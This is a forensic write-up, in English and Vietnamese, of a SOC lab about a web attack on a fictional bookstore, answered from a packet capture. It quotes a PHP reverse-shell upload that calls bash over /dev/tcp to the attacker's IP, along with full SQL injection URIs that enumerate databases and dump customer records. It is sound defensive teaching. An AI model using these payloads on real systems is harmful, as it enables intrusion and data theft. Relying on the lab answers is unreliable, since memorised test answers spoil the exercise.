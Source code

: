 ## Instructions:

   ### Uncompress the lab (pass: cyberdefenders.org)

## Scenario:

### You are a cybersecurity analyst working in the Security Operations Center (SOC) of BookWorld, an expansive online bookstore renowned for its vast selection of literature. BookWorld prides itself on providing a seamless and secure shopping experience for book enthusiasts around the globe. Recently, you've been tasked with reinforcing the company's cybersecurity posture, monitoring network traffic, and ensuring that the digital environment remains safe from threats.

### Late one evening, an automated alert is triggered by an unusual spike in database queries and server resource usage, indicating potential malicious activity. This anomaly raises concerns about the integrity of BookWorld's customer data and internal systems, prompting an immediate and thorough investigation.

### As the lead analyst on this case, you are required to analyze the network traffic to uncover the nature of the suspicious activity. Your objectives include identifying the attack vector, assessing the scope of any potential data breach, and determining if the attacker gained further access to BookWorld's internal systems.

## Tools:

   ### Wireshark
   ### Network Miner

## Q1: By knowing the attacker's IP, we can analyze all logs and actions related to that IP and determine the extent of the attack, the duration of the attack, and the techniques used. Can you provide the attacker's IP?
* Mở file xem conversation của các ip thì mình thấy có hai ip giao tiếp với nhau nhiều nhất là

![Screenshot 2024-04-04 154742](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/ab45fe29-a753-4181-af34-402dc8530cee)

* Mình thử xem các packet http của hai địa chỉ ip này thì tìm POST request thì thấy xuất phát từ địa chỉ ip 111.224.250.131 có upload một file khá lạ, mình thử xem nội dung file đó thì đúng là một hành vi tấn công

![Screenshot 2024-04-04 155821](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/6ed22dd8-9f08-4926-9ee2-2a94ae3351ec)

* Một file NVri2vhp.php được upload với nội dung <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>

![Screenshot 2024-04-04 160058](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/4b96bd18-bbc7-44af-8121-5cb7cd7b278a)

* Dòng lệnh php này sử dụng để mở một cổng 443 tại địa chỉ 111.224.250.131, cho phép kẻ tấn công thực hiện lệnh bash từ xa nhằm mục đích tấn công

`Answer: 111.224.250.131`

## Q2: If the geographical origin of an IP address is known to be from a region that has no business or expected traffic with our network, this can be an indicator of a targeted attack. Can you determine the origin city of the attacker?
* Từ địa chỉ ip mình tìm được địa chỉ thành phố của kẻ tấn công

![Screenshot 2024-04-04 163105](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/9f2577e0-ea02-4522-862b-9fbdf965fce6)

`Answer: Shijiazhuang`

## Q3: Identifying the exploited script allows security teams to understand exactly which vulnerability was used in the attack. This knowledge is critical for finding the appropriate patch or workaround to close the security gap and prevent future exploitation. Can you provide the vulnerable script name?
* file bị kẻ tấn công dùng để khai thác thông tin là search.php

![Screenshot 2024-04-04 163437](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/ff82321c-0408-4797-86ba-877e6ac9c9ad)

* Tại đây kẻ tấn công đã sử dụng SQL injection để tấn công database của bên nạn nhân

`Answer: search.php`

## Q4: Establishing the timeline of an attack, starting from the initial exploitation attempt, What's the complete request URI of the first SQLi attempt by the attacker?
* Dựa trên thời gian tấn công thì URI của câu lệnh đầu tiên là Request URI: /search.php?search=book%20and%201=1;%20--%20-

![Screenshot 2024-04-04 163942](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/3a53930e-3afb-4ab8-ad85-c92b65fc902a)

* URL decode được /search.php?search=book and 1=1; -- -

`Answer: /search.php?search=book%20and%201=1;%20--%20-`

## Q5: Can you provide the complete request URI that was used to read the web server available databases?
* Mình thấy có rất nhiều câu lệnh sqli nên đã dựa vào câu hỏi là tất cả những data có thể xem nên mình tìm những câu lệnh có union all, không nên có những câu lệnh điều kiện như case when, where để tránh sự thiếu sót dữ liệu

![Screenshot 2024-04-04 170222](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/ad2ecb8d-5177-453c-b38a-f60ea7d3e3ef)

* Sau khi tìm kiếm những điều kiện trên thì mình đã tìm thấy /search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,schema_name)),0x7176706a71) FROM INFORMATION_SCHEMA.SCHEMATA-- -

`Answer: /search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-`
  
## Q6: Assessing the impact of the breach and data access is crucial, including the potential harm to the organization's reputation. What's the table name containing the website users data?
* Câu lệnh mà tìm kiếm data người dùng có các thuộc tính liên quan đến người dùng như email, name, username,... nên mình đã thử tìm kiếm và thấy được 

![Screenshot 2024-04-04 170641](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/2c0f9cc6-9fa6-40ca-8279-5c79fede2366)

* Câu lệnh /search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,address,email,first_name,id,last_name,phone)),0x7176706a71) FROM bookworld_db.customers-- - lấy dữ liệu từ bảng customers

![Screenshot 2024-04-04 170910](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/fd789d21-972d-417f-a14b-5001901a57af)

`Answer: customers`

## Q7: The website directories hidden from the public could serve as an unauthorized access point or contain sensitive functionalities not intended for public access. Can you provide name of the directory discovered by the attacker?
* kẻ tấn công đã tìm kiếm trong directory admin nơi mà chứa các thông tin mật như username, password của user cũng như admin

![Screenshot 2024-04-04 172042](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/581fc2a9-353d-4f0e-bc8e-5c752daea4e0)

`Answer: /admin/`

## Q8: Knowing which credentials were used allows us to determine the extent of account compromise. What's the credentials used by the attacker for logging in?
* Mình tìm thấy các credentials mà kẻ tấn công sử dụng

![Screenshot 2024-04-04 174509](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/bf32376b-0b12-4106-ae00-0ea7d53cea75)

* username admin và password admin123! được sử dụng cuối cùng và sau đó kẻ tấn công đã truy cập được vào

`Answer: admin:admin123!`

## Q9: We need to determine if the attacker gained further access or control on our web server. What's the name of the malicious script uploaded by the attacker?
* Như mình đã tìm được ở Q1 thì file được upload lên là NVri2vhp.php nhằm tạo backdoor để sử dụng các câu lệnh từ xa

![Screenshot 2024-04-04 175350](https://github.com/LDV-SpaceK/CTF-Learning/assets/151914246/708e4218-c2e3-4493-a4af-abc7ae60ba53)

`Answer: NVri2vhp.php`
